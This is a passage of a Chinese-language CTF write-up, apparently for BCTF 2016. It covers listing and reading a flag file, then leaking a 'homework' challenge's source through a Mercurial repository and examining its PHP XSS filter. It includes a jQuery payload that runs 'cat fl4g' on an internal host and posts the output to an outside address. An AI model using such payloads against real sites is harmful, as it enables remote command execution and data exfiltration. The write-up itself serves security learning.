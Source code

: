 那么ls一下发现
```
fl4g
index.php
index.php
```
看到flag了，cat一下
```
jQuery.get( "http://172.17.0.2/?c=cat fl4g", function( data ) {
    jQuery.post( "http://1.2.3.4/app_dev.php", { x: data} );
});
```
get!


## homework

找了一段时间没有找到writeup，只找到一个朋友写的，但是是还没有getflag版，但是还是能得到很多东西。

[http://www.isecer.com/ctf/bctf-2016-log-for-homework.html](http://www.isecer.com/ctf/bctf-2016-log-for-homework.html)

1、hint1: source code can be leaked.
2、hint2: version control
3、hint3: hack the server

首先就是一个大坑，hints说有源码泄露还有版本控制，第一反应就是.git，但是并没有，后来想到以前在下老外写的githack工具的时候还看到别的几个版本的爬源码工具，打开发现真的有爬.hg的。

[https://github.com/kost/dvcs-ripper](https://github.com/kost/dvcs-ripper)

发现/index.php和/admin/read.php可能存在漏洞

index.php中有过滤函数

```
function stripStr($str) {
    $str=str_ireplace("'","",$str);
    $str=str_ireplace('"',"",$str);
    $str=str_ireplace('&',"",$str);
    $str=str_ireplace('#',"",$str);
    $str=str_ireplace(';',"",$str);
    $str=str_ireplace(',',"",$str);
    $str=str_ireplace(':',"",$str);
    $str=str_ireplace('`',"",$str);
    $str=str_ireplace('(',"",$str);
    $str=str_ireplace(')',"",$str);
    $str=str_ireplace('[',"",$str);
    $str=str_ireplace(']',"",$str);
    $str=str_ireplace('\\',"",$str);
    $str=str_ireplace('\r',"",$str);
    $str=str_ireplace('\n',"",$str);
    $str=str_ireplace('\0',"",$str);
    do $str=str_ireplace("script","",$str,$count); while($count>0);
    do $str=str_ireplace("iframe","",$str,$count); while($count>0);
    do $str=str_ireplace("data","",$str,$count); while($count>0);
    do $str=str_ireplace("\\x","",$str,$count); while($count>0);
    do $str=str_ireplace("\\u","",$str,$count); while($count>0);
    return $str;
```
